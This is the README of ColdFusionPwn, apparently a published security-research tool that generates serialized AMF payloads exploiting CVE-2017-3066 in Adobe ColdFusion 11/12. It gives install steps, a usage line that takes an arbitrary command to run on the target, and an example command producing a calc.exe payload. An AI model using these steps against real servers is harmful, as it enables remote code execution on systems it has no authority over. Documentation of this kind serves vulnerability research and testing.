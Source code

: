 # ColdFusionPwn
Exploitation Tool for CVE-2017-3066 targeting Adobe Coldfusion 11/12.

## Description
The tool allows you to generate serialized AMF-payloads to exploit the missing input validation of allowed classes.
For details see our [blog post](https://codewhitesec.blogspot.com/2018/03/exploiting-adobe-coldfusion.html).

## Install
Get the latest version of [ysoserial](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar).
Get ColdFusionPwn from [releases](https://github.com/codewhitesec/ColdFusionPwn/releases).

## Usage
```bash
java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-master-SNAPSHOT.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner [-s|-e] [payload type] '[command]' [outfile]
```
```
- [-s|-e]         Setter (CF11) or Externalizable Exploit (CF11/12) technique
- [payload type]  ysoserial gadget payload 
- [command]       command to be executed
- [outfile]       output file for the generated payload
```
It's required to have ColdFusionPwn-0.0.1-SNAPSHOT-all.jar as first entry in the classpath, since the ApacheCommons BeanUtils library shipped with ysoserial is newer (and has a different serialversion uid).

## Examples
```bash
java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-master-SNAPSHOT.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 calc.exe /tmp/out.amf
```
